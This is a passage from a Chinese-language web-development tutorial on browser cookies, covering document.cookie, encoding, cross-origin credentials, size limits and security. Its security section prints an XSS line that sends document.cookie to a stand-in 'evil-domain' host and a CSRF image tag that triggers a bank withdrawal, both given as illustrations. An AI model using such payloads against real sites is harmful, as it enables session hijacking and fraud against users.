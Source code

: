 注意，`document.cookie` 一次只能写入一个 Cookie，而且写入并不是覆盖，而是添加。

```js
document.cookie = "test1=hello";
document.cookie = "test2=world";
document.cookie;
// test1=hello;test2=world
```

`document.cookie` 读写行为的差异（一次可以读出全部 Cookie，但是只能写入一个 Cookie），与 HTTP 协议的 Cookie 通信格式有关。浏览器向服务器发送 Cookie 的时候，Cookie 字段是使用一行将所有 Cookie 全部发送；服务器向浏览器设置 Cookie 的时候，Set-Cookie 字段是一行设置一个 Cookie。

##### 1.1.6.cookie 编码

对于 cookie 的值进行编码一直都存在一些困惑。普遍认为 cookie 的值必须经过 URL 编码，但其实这是一个谬论，尽管通常都这么做。原始规范中明确指出只有三个字符必须进行编码：分号、逗号和空格，规范中还提到可以进行 URL 编码，但并不是必须，在 RFC 中没有提及任何编码。然而，几乎所有的实现都对 cookie 的值进行了一系列的 URL 编码。对于 `name=value` 格式，通常会对 name 和 value 分别进行编码，而不对等号 = 进行编码操作。

##### 1.1.7.跨域请求中 cookie

在发同域请求时，浏览器会将 cookie 自动加在 request header 中。但大家是否遇到过这样的场景：在发送跨域请求时，cookie 并没有自动加在 request header 中。

造成这个问题的原因是：在 CORS 标准中做了规定，默认情况下，浏览器在发送跨域请求时，不能发送任何认证信息（credentials）如 "cookies" 和 "HTTP authentication schemes"。除非 `xhr.withCredentials` 为 true（xhr 对象有一个属性叫 `withCredentials`，默认值为 false）。

所以根本原因是 cookies 也是一种认证信息，在跨域请求中，client 端必须手动设置 `xhr.withCredentials=true`，且 server 端也必须允许 request 能携带认证信息（即 response header 中包含 `Access-Control-Allow-Credentials:true`），这样浏览器才会自动将 cookie 加在 request header 中。

另外，要特别注意一点，一旦跨域 request 能够携带认证信息，server 端一定不能将 `Access-Control-Allow-Origin` 设置为 `*`，而必须设置为请求页面的域名，否则浏览器将会抛出 `The value of the 'Access-Control-Allow-Origin' header in the response must not be the wildcard '*'` 错误。

#### 1.2.Cookie 限制条件

cookie 存在许多限制条件，来阻止 cookie 滥用并保护浏览器和服务器免受一些负面影响。有两种 cookie 限制条件：cookie 的属性和 cookie 的总大小。原始规范中限定每个域名下不超过 20 个 cookie，早期的浏览器都遵循该规范，并且在 IE7 中有更近一步的提升。在微软的一次更新中，他们在 IE7 中增加 cookie 的限制数量到 50 个，与此同时 Opera 限定 cookie 数量为 30 个，Safari 和 Chrome 对与每个域名下的 cookie 个数没有限制。

发向服务器的所有 cookie 的最大数量（空间）仍旧维持原始规范中所指出的：4KB。所有超出该限制的 cookie 都会被截掉并且不会发送至服务器。

#### 1.3.安全

> 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息。

##### 1.3.1 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

`(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;`

`HttpOnly` 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

##### 1.3.2.跨站请求伪造（CSRF）

比如在不安全聊天室或论坛上的一张图片，它实际上是一个给你银行服务器发送提现的请求：

`<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">`
